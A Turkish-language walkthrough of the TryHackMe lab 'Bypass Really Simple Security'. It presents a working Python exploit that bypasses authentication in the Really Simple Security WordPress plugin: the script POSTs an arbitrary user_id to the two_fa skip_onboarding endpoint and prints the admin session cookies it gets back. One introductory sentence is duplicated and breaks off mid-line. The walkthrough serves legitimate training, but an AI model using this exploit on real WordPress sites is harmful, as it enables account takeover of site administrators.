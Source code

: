 
Daha iyi pekiştirmek amacıyla **Tryhackme** platformu üzerinde bulunan **Bypass Really Simple Security** adlı odayı adım adım çözeceğiz.

Makineyi başlattıktan sonra http://vulnerablewp.thm:8080/wp-admin web sitesini ziyaret ediyoruz ve kimlik doğrulama sayfası ile karşılaşıyoruz. Amacımız ise `user_id` değeri **1** olan bir WordPress kullanıcısı olan admin'in kimlik bilgilerini ele geçirmektir.

![WordPress Login](wordpress.png)

Aşağıdaki Python kodu savunmasız `/reallysimplessl/v1/two_fa/skip_onboarding` uç noktasına bir POST isteği göndermektedir. Bu kod kullanıcının kimliğini doğrulamak için gerekli olan 

Aşağıda, savunmasız uç noktaya bir POST isteği gönderen basit bir Python betiği bulunmaktadır. Bu betik, kullanıcının kimliğini doğrulamak için yanıttaki çerezleri çıkarır ve görüntüler.

```python
import requests
import urllib.parse
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),  # User ID from the argument
    "login_nonce": "invalid_nonce",  # Arbitrary value
    "redirect_to": "/wp-admin/"  # Target redirection
}

# Sending the POST request
response = requests.post(url, json=data)

# Checking the response
if response.status_code == 200:
    print("Request successful!\n")
    
    # Extracting cookies
    cookies = response.cookies.get_dict()
    count = 1

    for name, value in cookies.items():
        decoded_value = urllib.parse.unquote(value)  # Decode the URL-encoded cookie value
        print(f"Cookie {count}:")
        print(f"Cookie Name: {name}")
        print(f"Cookie Value: {decoded_value}\n")
        count += 1
else:
    print("Request failed!")
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
```
